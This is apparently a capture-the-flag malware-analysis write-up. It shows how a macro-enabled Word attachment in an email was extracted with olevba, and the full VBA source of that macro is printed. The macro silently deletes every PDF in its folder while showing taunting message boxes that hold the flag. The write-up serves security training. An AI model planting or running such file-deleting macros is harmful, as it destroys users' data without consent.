



# Serie Algebre 416 - Malware Analysis Writeup

## Challenge Descritption

**"DON'T EXECUTE THIS IN A FOLDER CONTAINING IMPORTANT FILES. YOU'VE BEEN WARNED!"** My friend sent me these exercices. For some reason now, all of my academic material is getting deleted. Can you help me inspect the mail he sent me? Flag: Securinets{flag_filesDeletedExtension}

---

## Provided Files:

[Dazou_khouh_Tah_fe_chorba.eml](taskFiles/Dazou_khouh_Tah_fe_chorba.eml)

---

## TL;DR
open the `.eml` file with your email viewer (Outlook...) and extract the `.docm` file. Using a text editor and decoding the base64 data is also valid.

Download and install the oletools python package
```bash
sudo -H pip install oletools
```
Extract the macro script using this command.

```bash
olevba SerieAlgebre.docm
```

The extracted script deletes every `.pdf` file in the local directory, and the flag is split in the two vbExclamation calls (message box).

**flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**

---

## Initial Analysis

The `.eml` file (Electronic Mail Format) is an email message file format. This can be opened with an email client like Outlook or, alternatively, with a text editor. Inspecting the email, we found an attached `.docm` file — a Word document with enabled macros.



A `.docm` file is particularly suspicious in a malware analysis context, as it can contain embedded macros, which are often used to automate tasks. However, in many phishing attacks, attackers embed malicious scripts within these macros **(In Word, you can automate frequently used tasks by creating and running macros. A macro is a series of commands and instructions that you group together as a single command to accomplish a task automatically.)**. 

Opening the file with ms word will be your first intinct and it is solvable with that apprach. Open the document and it's just a normal ms word document. But, if you enable editing, you get this a warning that macros from untrusted sources is disabled by default.

`Microsoft Word disables macros by default for documents from unknown sources, but with a bit of social engineering, users can be convinced to re-enable them.`



*If you want to enable the macros, just make sure to put the docm in an isolated folder that doesn't contain important files and just follow [these instructions](https://support.microsoft.com/en-us/topic/a-potentially-dangerous-macro-has-been-blocked-0952faa0-37e7-4316-b61d-5b5ed6024216). Make sure to save the file too.*

To view the macros, just head to the view tab, select macros, click on **corrigé** macro and select edit.



---

## Static Analysis Using Oletools

Opening the `.docm` file in Microsoft Word is not an optimal approach, especially for Linux users. Instead, we opted for **oletools**, a Python tool for static malware analysis. To extract and analyze macros from the Office document, we used the following command:

```bash
olevba SerieAlgebre.docm
```

We then get the following output

```bash
olevba 0.60.2 on Python 3.11.9 - http://decalage.info/python/oletools
===============================================================================
FILE: SerieAlgebre.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub Corrige()
    Dim folderPath As String
    Dim fileName As String
    Dim fileExtension As String
    Dim fileSystem As Object

    folderPath = ThisDocument.Path

    If folderPath = "" Then
        MsgBox "Save me please... Securinets{W0nt_Help", vbExclamation
        Exit Sub
    End If

    Set fileSystem = CreateObject("Scripting.FileSystemObject")

    fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
    Set fileSystem = Nothing
    MsgBox "HHAHHAHA you lost all your pdfss _Y0u_4nym0re}", vbExclamation
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CreateObject        |May create an OLE object                     |
+----------+--------------------+---------------------------------------------+

```

This script to sumarize, deletes the pdf files stored in the directory that contains the docm file while displaying two message boxes.

The first one **Save me please... Securinets{W0nt_Help** conatains the first part of the flag. It also displays an attempted method by the attacker to make the victim save the file for the script to work correctly.

The second one **HHAHHAHA you lost all your pdfss _Y0u_4nym0re}** contains the second part of the flag.

The main part of the script reads the path of the file, scans the directory for files that have pdf extension, and deletes them.

```bash
fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
```

So, finally: **flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**